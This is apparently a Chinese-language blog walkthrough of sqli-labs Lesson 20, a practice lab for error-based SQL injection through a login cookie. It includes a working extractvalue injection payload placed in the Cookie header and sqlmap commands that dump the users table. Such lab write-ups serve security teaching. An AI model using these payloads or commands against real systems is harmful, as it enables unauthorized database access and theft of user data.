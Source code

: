 ```yaml
---
title: sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入
date: 2018-09-29 20:34:34
tags:
categories: sql注入
---
```

# sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入 #

## 登录界面 ##

![1](\img\sql\Lesson-20\1.png)

## 分析 ##

不出所料账号密码被过滤了。

![2](\img\sql\Lesson-20\2.png)

用admin,admin登录成功,页面返回信息。

![3](\img\sql\Lesson-20\3.png)

这次页面拿了一堆信息。


从源码用可以得知登录成功后会保存用户登录名到cookie中,存活时间为1小时。再次刷新时会从数据库查询用户名等于cookie的数据,而cookie在SQL执行前没有过滤。这里得用Burpsuite做了。

![4](\img\sql\Lesson-20\4.png)

关闭phpstudy的magic_quotes_gpc配置,否则cookie数据中的特殊符号会被转义导致实验失败。

![5](\img\sql\Lesson-20\5.png)

## 注入 ##

首先以正确的用户账号登录

![6](\img\sql\Lesson-20\6.png)

然后开启firefox代理,用Burpsuite拦截包。刷新页面。

![7](\img\sql\Lesson-20\7.png)

截取到服务器请求获取cookie的包,发送到Repeater。

![8](\img\sql\Lesson-20\8.png)

修改`Cookie: uname=admin`为`Cookie: uname=admin'`,点击GO发送,查看归还界面。

![9](\img\sql\Lesson-20\9.png)

有报错信息后根据报错信息构造闭合,payload也呼之欲出。

![10](\img\sql\Lesson-20\10.png)

`Cookie: uname=admin' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#`

![11](\img\sql\Lesson-20\11.png)

## SQLMAP ##

用Burpsuite抓取刷新页面的包,能够获得cookie信息。保存到文件。

![12](\img\sql\Lesson-20\12.png)

-r 指定HTTP请求报文

--level 2:加入检测cookie

--dbms mysql:指定后端数据库为mysql

--technique E:指定测试方式为报错注入

--thread 10:指定并发线程

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 `

![13](\img\sql\Lesson-20\13.png)

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 -D security -T users --columns --dump`

![14](\img\sql\Lesson-20\14.png)
